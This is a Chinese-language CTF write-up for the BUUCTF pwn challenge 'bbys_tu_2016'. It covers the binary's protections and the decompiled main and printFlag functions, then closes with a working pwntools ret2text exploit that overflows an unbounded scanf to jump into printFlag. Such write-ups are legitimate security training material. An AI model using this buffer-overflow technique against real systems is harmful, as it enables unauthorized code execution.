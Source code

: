 ```yaml
---
author: 
  name: Zephyr
title: bbys tu 2016
date: 2022-4-6 17:18:10
permalink: /pages/2e1547494524d1aa
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# bbys tu 2016

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/bbys_tu_2016/bbys_tu_2016'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+14h] [ebp-Ch]

  puts("This program is hungry. You should feed it.");
  __isoc99_scanf("%s", &v4);
  puts("Do you feel the flow?");
  return 0;
}
```

printFlag函数如下：

```c
int printFlag()
{
  char s; // [esp+1Ah] [ebp-3Eh]
  FILE *stream; // [esp+4Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  fgets(&s, 50, stream);
  puts(&s);
  fflush(stdout);
  return fclose(stream);
}
```

静态链接

## 思路分析

1. 目前信息：

   - main函数存在任意长度的溢出点
   - printFlag函数可打印flag
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 32位ret2text

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/bbys_tu_2016/bbys_tu_2016'
# io = remote('node4.buuoj.cn', 26261)
io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x14+4
printFlag_addr=elf.symbols['printFlag']
main_addr=elf.symbols['main']
payload=flat(['a'*padding,printFlag_addr,main_addr])
io.sendline(payload)
io.interactive()
```

